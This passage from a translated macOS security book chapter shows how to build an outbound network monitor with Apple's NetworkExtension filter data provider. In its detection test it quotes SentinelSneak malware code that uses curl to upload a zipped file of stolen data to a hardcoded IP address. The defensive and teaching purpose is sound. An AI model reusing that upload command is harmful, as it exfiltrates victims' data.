@interface FilterDataProvider : NEFilterDataProvider
    ...
@end 
```

列表 7-13：FilterDataProvider 类的接口定义

一旦过滤数据提供者扩展启动并运行，*NetworkExtension*框架将自动调用此类的 startFilterWithCompletionHandler 方法，在这里你可以指定你想要过滤的流量。列表 7-14 中的代码过滤所有协议，但仅限于出站流量，这比入站流量更有助于检测未经授权或可能是恶意软件的新程序。

```
-(void)startFilterWithCompletionHandler:(void (^)(NSError* error))completionHandler {
    NENetworkRule* networkRule = [[NENetworkRule alloc] initWithRemoteNetwork:nil
    remotePrefix:0 localNetwork:nil localPrefix:0 protocol:NENetworkRuleProtocolAny
    direction:NETrafficDirectionOutbound]; ❶

    NEFilterRule* filterRule =
    [[NEFilterRule alloc] initWithNetworkRule:networkRule action:NEFilterActionFilterData]; ❷

    NEFilterSettings* filterSettings =
    [[NEFilterSettings alloc] initWithRules:@[filterRule] defaultAction:NEFilterActionAllow]; ❸

    [self applySettings:filterSettings completionHandler:^(NSError* _Nullable error) { ❹
        // If no error occurred, the filter data provider is now filtering.
    }];
    ...
} 
```

列表 7-14：设置过滤规则以指定哪些流量应通过扩展进行路由

首先，代码创建了一个 NENetworkRule 对象，将协议过滤选项设置为任何，方向过滤选项设置为出站 ❶。然后，使用这个 NENetworkRule 对象创建一个 NEFilterRule 对象。它还指定了 NEFilterActionFilterData 动作，告诉*NetworkExtension*框架我们想要过滤数据 ❷。接下来，创建了一个 NEFilterSettings 对象，使用我们刚刚创建的过滤规则，这个规则匹配所有出站流量。指定 NEFilterActionAllow 作为默认动作意味着任何不匹配此过滤规则的流量将被允许 ❸。最后，它应用这些设置开始过滤 ❹。

现在，任何时候系统上的程序发起一个新的外向网络连接，系统会自动调用我们过滤器类中的`handleNewFlow:`代理方法。虽然它的名字相同，但这个代理方法与我们用于 DNS 监控的那个方法有所不同。它接受一个参数（一个包含流信息的 NEFilterFlow 对象），并且在返回时，必须指示系统如何处理该流。它通过一个 NEFilterNewFlowVerdict 对象来实现，这个对象可以指定裁定，如允许（allowVerdict）、丢弃（dropVerdict）或暂停（pauseVerdict）。因为我们专注于将流与其负责的进程绑定，所以我们总是允许流通过（Listing 7-15）。

```
-(NEFilterNewFlowVerdict*)handleNewFlow:(NEFilterFlow*)flow {
    ...
    return [NEFilterNewFlowVerdict allowVerdict];
} 
```

Listing 7-15: 从 handleNewFlow:方法返回裁定

如果我们正在构建一个防火墙，我们将查阅防火墙的规则，或者在允许或阻止每个流之前提醒用户。  #### 查询流

通过查询流，我们可以提取诸如其远程端点和负责生成它的进程等信息。首先，让我们打印出流对象。例如，下面是一个由 curl 生成的流，用于尝试连接到*objective-see.org*：

```
flow:
    identifier = D89B5B5D-793C-4940-80FE-54932FAA0500
    sourceAppIdentifier =.com.apple.curl
    sourceAppVersion =
    sourceAppUniqueIdentifier =
    {length = 20, bytes = 0xbbb73e021281eee708f86d974c91182e955de441}
    procPID = 26686
    eprocPID = 26686
    direction = outbound
    inBytes = 0
    outBytes = 0
    signature =
    {length = 32, bytes = 0x5a322cd8 f14f63bc a117ddf5 1762fa5abb8291c9 2b6ab2fd}
    socketID = 5aa2f9354fe80
    localEndpoint = 0.0.0.0:0
    remoteEndpoint = 185.199.108.153:80
    remoteHostname = objective-see.org.
    protocol = 6
    family = 2
    type = 1
    procUUID = 9C547A5F-AD1C-307C-8C16-426EF9EE2F7F
    eprocUUID = 9C547A5F-AD1C-307C-8C16-426EF9EE2F7F 
```

除了关于责任进程的信息，比如其应用程序 ID 外，我们还可以看到关于目标的详细信息，包括端点和主机名。流对象还包含关于流类型的信息，包括其协议和套接字族。

现在让我们提取更具体的信息。回想一下，在配置过滤器时，我们告诉系统我们只对过滤套接字感兴趣。因此，传递到`handleNewFlow:`方法的流将是一个 NEFilterSocketFlow 对象，它是 NEFilterFlow 类的子类。这些对象有一个名为 remoteEndpoint 的实例变量，包含一个 NWEndpoint 类型的对象，该对象本身包含有关流的目标地址的信息。你可以通过 NEFilterSocketFlow 对象的 hostname 实例变量提取远程端点的 IP 地址，并通过 port 变量检索其端口，这两个变量都以字符串形式存储（Listing 7-16）。

```
NSString* addr = ((NEFilterSocketFlow*)flow).remoteEndpoint.hostname;
NSString* port = ((NEFilterSocketFlow*)flow).remoteEndpoint.port; 
```

Listing 7-16: 提取远程端点的地址和端口

这些 NEFilterSocketFlow 对象还包含有关流的低级信息，包括套接字族、类型和协议。Table 7-1 总结了这些信息，但你可以在 Apple 的*NEFilterFlow.h*中了解更多细节。

Table 7-1: NEFilterSocketFlow 对象中的低级流信息

| 变量名 | 类型 | 描述 |
| --- | --- | --- |
| socketType | int | 套接字类型，如 SOCK_STREAM |
| socketFamily | int | 套接字族，如 AF_INET |
| socketProtocol | int | 套接字协议，如 IPPROTO_TCP |

从 remoteEndpoint 和 socket 实例变量中，你可以提取信息用于网络基础的启发式分析。例如，你可以设计一个启发式规则，标记所有目标为非标准端口的网络流量。

为了识别负责的进程，NEFilterFlow 对象有 sourceAppIdentifier 和 sourceAppAuditToken 属性。我们将重点关注后者，因为它能提供进程 ID 和进程路径。清单 7-17 通过采用我们在 DNS 监视器中使用的方法来执行此提取。

```
CFURLRef path = NULL;
SecCodeRef code = NULL;
audit_token_t* token = (audit_token_t*)flow.sourceAppAuditToken.bytes;

pid_t pid = audit_token_to_pid(*token);

SecCodeCopyGuestWithAttributes(NULL, (__bridge CFDictionaryRef _Nullable)(@{(__bridge NSString
*)kSecGuestAttributeAudit:flow.sourceAppAuditToken}), kSecCSDefaultFlags, &code);

SecCodeCopyPath(code, kSecCSDefaultFlags, &path);

// Do something with the process ID and path.

CFRelease(path);
CFRelease(code); 
```

清单 7-17：从流中识别负责的进程

我们从流中提取审计令牌，然后调用 audit_token_to_pid 函数获取负责进程的 ID。我们还使用审计令牌获取代码引用，然后调用 SecCodeCopyPath 来检索进程路径。

#### 运行监视器

如果我们将此代码编译为实现完整、适当授权的网络扩展的一部分，我们可以实时全局观察所有出站网络流量，并提取每个流的远程端点和负责的进程信息。是的，这意味着我们现在可以轻松检测到像 Dummy 这样的基础恶意软件，但让我们针对一个相关的 macOS 恶意软件样本——SentinelSneak 进行测试。

这个恶意的 Python 软件包在 2022 年底被发现，目标是开发者，目的是窃取敏感数据。^(14)它使用了一个硬编码的 IP 地址作为命令与控制服务器。从它未加混淆的 Python 代码中，我们可以看到 curl 将感染系统的信息上传到位于 54.254.189.27 的外泄服务器：

```
command = "curl -k -F \"file=@" + zipname + "\" \"https://54.254.189.27/api/
v1/file/upload\" > /dev/null 2>&1"
os.system(command) 
```

这意味着我们在本章早些时候编写的 DNS 监视器无法检测到它的未经授权的网络访问。但过滤器数据提供者应该捕获并显示以下内容：

```
flow:
    identifier = D89B5B5D-793C-4940-41BD-B091F4C00700
    sourceAppIdentifier =.com.apple.curl
    sourceAppVersion =
    sourceAppUniqueIdentifier = {length = 20, bytes =
    0xbbb73e021281eee708f86d974c91182e955de441}
    procPID = 87558
    eprocPID = 87558
    direction = outbound
    inBytes = 0
    outBytes = 0
    signature = {length = 32, bytes = 0x4ee4a2f2 72c06264
    f38d479b 6ea2dc39 ... 74aa159c 9153147b}
    socketID = 7c0f491b0bd41
    localEndpoint = 0.0.0.0:0
    remoteEndpoint = 54.254.189.27:443
    protocol = 6
    family = 2
    type = 1
    procUUID = 9C547A5F-AD1C-307C-8C16-426EF9EE2F7F
    eprocUUID = 9C547A5F-AD1C-307C-8C16-426EF9EE2F7F

Remote Endpoint: 54.254.189.27:443

Process ID: 87558
Process Path: /usr/bin/curl 
```

如你所见，它能够捕获流量，提取远程端点（54.254.189.27:443），并正确识别负责的进程为 curl。

这个负责的进程使得检测变得更加复杂，因为 curl 是一个合法的 macOS 平台二进制文件，而不是恶意软件的不可信组件。我们该怎么做呢？好吧，使用第一章中介绍的方法，我们可以提取恶意软件执行 curl 时使用的参数：

```
-k -F "file=`<some file>`" https://54.254.189.27/api/v1/file/upload
```

这些参数应该引起警惕，因为尽管合法软件通常使用 curl 下载文件，但它很少用于上传文件，尤其是上传到硬编码的 IP 地址。此外，-k 参数告诉 curl 以不安全模式运行，这意味着服务器的 SSL 证书将不会被验证。再次强调，这是一个警告信号，因为合法软件利用 curl 时通常不会以这种不安全的模式运行。

你也可以确定该进程的父进程是一个 Python 脚本，并收集该脚本进行手动分析，这将很快揭示它的恶意性质。

### 结论

本章重点介绍了通过利用苹果强大的*NetworkExtension*框架来构建实时、基于主机的网络监控工具所需的概念。由于绝大多数 Mac 恶意软件都包含网络功能，因此本章中描述的技术对于任何恶意软件检测系统都是必不可少的。未经授权的网络活动作为许多安全工具和启发式检测方法的关键指示器，为检测针对 macOS 的已知和未知威胁提供了宝贵的方式。

### 注释

1.    1.  “Smooth Operator，”GCHQ，2023 年 6 月 29 日，[*https://<wbr>www<wbr>.ncsc<wbr>.gov<wbr>.uk<wbr>/static<wbr>-assets<wbr>/documents<wbr>/malware<wbr>-analysis<wbr>-reports<wbr>/smooth<wbr>-operator<wbr>/NCSC<wbr>_MAR<wbr>-Smooth<wbr>-Operator<wbr>.pdf*](https://www.ncsc.gov.uk/static-assets/documents/malware-analysis-reports/smooth-operator/NCSC_MAR-Smooth-Operator.pdf).

1.    2.  Patrick Wardle，"哪里有爱，哪里就有……恶意软件？" Objective-See，2023 年 2 月 24 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x72<wbr>.html*](https://objective-see.org/blog/blog_0x72.html).

1.    3.  “Crowdstrike Endpoint Security Detection re 3CX 桌面应用程序，”3CX 论坛，2023 年 3 月 29 日，[*https://<wbr>www<wbr>.3cx<wbr>.com<wbr>/community<wbr>/threads<wbr>/crowdstrike<wbr>-endpoint<wbr>-security<wbr>-detection<wbr>-re<wbr>-3cx<wbr>-desktop<wbr>-app<wbr>.119934<wbr>/*](https://www.3cx.com/community/threads/crowdstrike-endpoint-security-detection-re-3cx-desktop-app.119934/).

1.    4.  有关系统扩展的详细信息，请参见 Will Yu 的文章，“Mac 系统扩展用于威胁检测：第三部分，”*Elastic*，2020 年 2 月 19 日，[*https://<wbr>www<wbr>.elastic<wbr>.co<wbr>/blog<wbr>/mac<wbr>-system<wbr>-extensions<wbr>-for<wbr>-threat<wbr>-detection<wbr>-part<wbr>-3*](https://www.elastic.co/blog/mac-system-extensions-for-threat-detection-part-3).

1.    5.  “网络扩展，”苹果开发者文档，[*https://<wbr>developer<wbr>.apple<wbr>.com<wbr>/documentation<wbr>/networkextension<wbr>?language<wbr>=objc*](https://developer.apple.com/documentation/networkextension?language=objc).

1.    6.  “安装系统扩展和驱动程序，”苹果开发者文档，[*https://<wbr>developer<wbr>.apple<wbr>.com<wbr>/documentation<wbr>/systemextensions<wbr>/installing<wbr>-system<wbr>-extensions<wbr>-and<wbr>-drivers<wbr>?language<wbr>=objc*](https://developer.apple.com/documentation/systemextensions/installing-system-extensions-and-drivers?language=objc).

1.    7.  另请参见[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/products<wbr>/utilities<wbr>.html#DNSMonitor*](https://objective-see.org/products/utilities.html#DNSMonitor).

1.    8.  “activationRequestForExtension:queue:，”Apple 开发者文档，[*https://<wbr>developer<wbr>.apple<wbr>.com<wbr>/documentation<wbr>/systemextensions<wbr>/ossystemextensionrequest<wbr>/activationrequest(forextensionwithidentifier:queue:)<wbr>?language<wbr>=objc*](https://developer.apple.com/documentation/systemextensions/ossystemextensionrequest/activationrequest(forextensionwithidentifier:queue:)?language=objc)。

1.    9.  “OSSystemExtensionRequestDelegate，”Apple 开发者文档，[*https://<wbr>developer<wbr>.apple<wbr>.com<wbr>/documentation<wbr>/systemextensions<wbr>/ossystemextensionrequestdelegate<wbr>?language<wbr>=objc*](https://developer.apple.com/documentation/systemextensions/ossystemextensionrequestdelegate?language=objc)。

1.  10.  “startSystemExtensionMode，”Apple 开发者文档，[*https://<wbr>developer<wbr>.apple<wbr>.com<wbr>/documentation<wbr>/networkextension<wbr>/neprovider<wbr>/3197862<wbr>-startsystemextensionmode<wbr>?language<wbr>=objc*](https://developer.apple.com/documentation/networkextension/neprovider/3197862-startsystemextensionmode?language=objc)。

1.  11.  “NEDNSProxyProvider，”Apple 开发者文档，[*https://<wbr>developer<wbr>.apple<wbr>.com<wbr>/documentation<wbr>/networkextension<wbr>/nednsproxyprovider<wbr>?language<wbr>=objc*](https://developer.apple.com/documentation/networkextension/nednsproxyprovider?language=objc)。

1.  12.  Dan Goodin，“Apple 允许一些 Big Sur 网络流量绕过防火墙”，Arstechnica，2020 年 11 月 17 日，[*https://<wbr>arstechnica<wbr>.com<wbr>/gadgets<wbr>/2020<wbr>/11<wbr>/apple<wbr>-lets<wbr>-some<wbr>-big<wbr>-sur<wbr>-network<wbr>-traffic<wbr>-bypass<wbr>-firewalls<wbr>/*](https://arstechnica.com/gadgets/2020/11/apple-lets-some-big-sur-network-traffic-bypass-firewalls/)。

1.  13.  Filipe Espósito，“macOS Big Sur 11.2 beta 2 移除允许 Apple 应用程序绕过第三方防火墙的过滤器”，9to5Mac，2021 年 1 月 13 日，[*https://<wbr>9to5mac<wbr>.com<wbr>/2021<wbr>/01<wbr>/13<wbr>/macos<wbr>-big<wbr>-sur<wbr>-11<wbr>-2<wbr>-beta<wbr>-2<wbr>-removes<wbr>-filter<wbr>-that<wbr>-lets<wbr>-apple<wbr>-apps<wbr>-bypass<wbr>-third<wbr>-party<wbr>-firewalls<wbr>/*](https://9to5mac.com/2021/01/13/macos-big-sur-11-2-beta-2-removes-filter-that-lets-apple-apps-bypass-third-party-firewalls/)。

1.  14.  Patrick Wardle，“2022 年 Mac 恶意软件”，Objective-See，2023 年 1 月 1 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x71<wbr>.html*](https://objective-see.org/blog/blog_0x71.html)。
